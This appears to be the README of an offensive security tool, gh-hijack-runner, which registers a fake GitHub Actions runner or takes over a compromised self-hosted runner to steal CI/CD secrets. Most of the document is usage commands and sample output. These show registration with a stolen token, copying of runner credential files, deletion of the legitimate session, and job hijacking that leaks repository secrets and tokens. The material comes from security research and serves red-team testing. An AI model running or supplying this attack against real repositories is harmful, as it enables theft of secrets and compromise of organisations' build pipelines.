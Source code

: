 # gh-hijack-runner

A python script to create a fake GitHub runner and hijack pipeline jobs to leak CI/CD secrets.

Discover more details in the following blogpost: https://www.synacktiv.com/publications/hijacking-github-runners-to-compromise-a-github-organization

## Exploitation

If you can obtain a registration token or achieve remote code execution on a self-hosted GitHub runner, you can either create or take over a GitHub runner. This will allow you to access all the secrets passed to that runner.

Using a registration token, you can register a runner labelled `ubuntu-latest`, gaining access to jobs originally intended for GitHub-provisioned runners. This allows you to compromise any workflow using this method.

```shell
$ gh-hijack-runner.py --registration-token AOTAA3QWE1A5QB6JFECOKQDGEVOVC --url https://github.com/syncicd/CICD --labels ubuntu-latest
[+] Session ID: b66b76a8-e7db-4a14-a2ea-207b1c8cb94d
[+] AES key: BTIk+FT2hRb[...]HN1kkg==
[+] New Job: init (messageId=2)
- REPO_SECRET: repo secret
- SUPER_SECRET: super secret password
- system.github.token: ghs_RqDY21GqZ0OYvM8ImVpAB0B9o7TBQR4Dq2HC
```

## Install

```sh
$ pip install -r requirements.txt 
```

## Usage

### From a registration token

If you manage to get a registration token to register a self-hosted runner for a repo or an organization you can register the fake GitHub runner with this command:

```shell
$ gh-hijack-runner.py --registration-token AOTAA3QWE1A5QB6JFECOKQDGEVOVC --url https://github.com/syncicd/CICD --labels ubuntu-latest
```

### From credentials of an existing GitHub runner

With arbitrary code execution on a self-hosted runner, you need to exfiltrate three files to assume the identity of the compromised runner:
```shell
root@9f8f6f1fdfa6:/actions-runner# pwd
/actions-runner
root@9f8f6f1fdfa6:/actions-runner# ll
-rw-r--r-- 1 root   root     266 Apr 21 12:27 .credentials
-rw------- 1 root   root    1667 Apr 21 12:27 .credentials_rsaparams
-rw-r--r-- 1 root   root     325 Apr 21 12:27 .runner
[...]
```

To fetch jobs, the runner will establish a session with GitHub. Each runner can only maintain one session. To create a new session, you need to delete the current session established by the legitimate runner. The session ID can be found here:
```shell
root@9f8f6f1fdfa6:/actions-runner# cat _diag/* | grep -i session
[...]
[2024-04-21 18:03:46Z INFO MessageListener] Message '5' received from session 'aab007e0-eedd-4c1b-96b4-a7c2c128c31a'.
```

**/!\\ Deleting the current session will crash the legitimate runner /!\\**

Then, you can delete the current session:
```sh
$ gh-hijack-runner.py --rsa-params credentials_rsaparams.json --credentials credentials.json --runner runner.json --delete-session-id aab007e0-eedd-4c1b-96b4-a7c2c128c31a
[+] Session aab007e0-eedd-4c1b-96b4-a7c2c128c31a.
```

Finally you can hijack this runner:
```sh
$ gh-hijack-runner.py --rsa-params credentials_rsaparams.json --credentials credentials.json --runner runner.json                                                         
[+] Session ID: 3c88c6f7-5764-4121-b9bf-2536ee2539b7
[+] AES key: eLN3rhf3D[...]UHewLw==
[+] New Job: init (messageId=2)
- REPO_SECRET: repo secret
- SUPER_SECRET: super secret password
- system.github.token: ghs_RqDY23GqZ0OYvM8ImVpAB0B9o7TBQR4Dq2HC
```

Note that for ephemeral self-hosted runner this won't work.

### Help

```sh
$ gh-hijack-runner.py --help
Hijack GitHub runners                

Usage:
    gh-hijack-runner.py [options] --registration-token <token> --url <url> [--labels <labels> --ephemeral --rsa-params <rsa> --credentials <credentials> --runner <runner>]
    gh-hijack-runner.py [options] --rsa-params <rsa> --credentials <credentials> --runner <runner> [(--session-id <session> --aes-key <key>)]
    gh-hijack-runner.py [options] --rsa-params <rsa> --credentials <credentials> --runner <runner> --delete-session-id <session>
    

Options:
    -h --help                               Show this screen.
    --version                               Show version.
    -v, --verbose                           Verbose mode
    --output <folder>                       Save data to output file
    --runer-name <name>                     Runner name
    --runner-group <name>                   Runner group name
    --last-Message-id <id>                  Last message ID

Args:
    --registration-token <token>            Token used to register a runner
    --url <url>                             Full repository or org URL
    --rsa-params <rsa>                      Path to .credentials_rsaparams file
    --credentials <credentials>             Path to .credentials file
    --runner <runner>                       Path to .runner file
    --session-id <session>                  Already running session id
    --aes-key <key>                         Base64 encoded AES key associated with a session id
    --labels <labels>                       Labels used for registration (ubuntu-latest,customrunner)
    --ephemeral                             Create ephemeral runner
    --delete-session-id <session>           Delete session. Warning: It will crash the related GitHub runner
    

Examples:
    $ gh-hijack-runner.py --registration-token AOTAA3TOI7SACAVKBDWEQN3F5IEO2 --url https://github.com/org/repo
    $ gh-hijack-runner.py --rsa-params credentials_rsaparams.json --credentials credentials.json --runner runner.json

Author: @hugow

```

## Credits

- [@karimpwnz](https://twitter.com/karimpwnz) for the [crypto](https://karimrahal.com/2023/01/05/github-actions-leaking-secrets/)
- [@0xn3va](https://twitter.com/0xn3va) for the [session deletion](https://0xn3va.gitbook.io/cheat-sheets/ci-cd/github/actions#misuse-of-self-hosted-runners) part
- [@frichette_n](https://twitter.com/frichette_n) for the [original idea](https://github.com/Frichetten/gitlab-runner-research) on GitLab
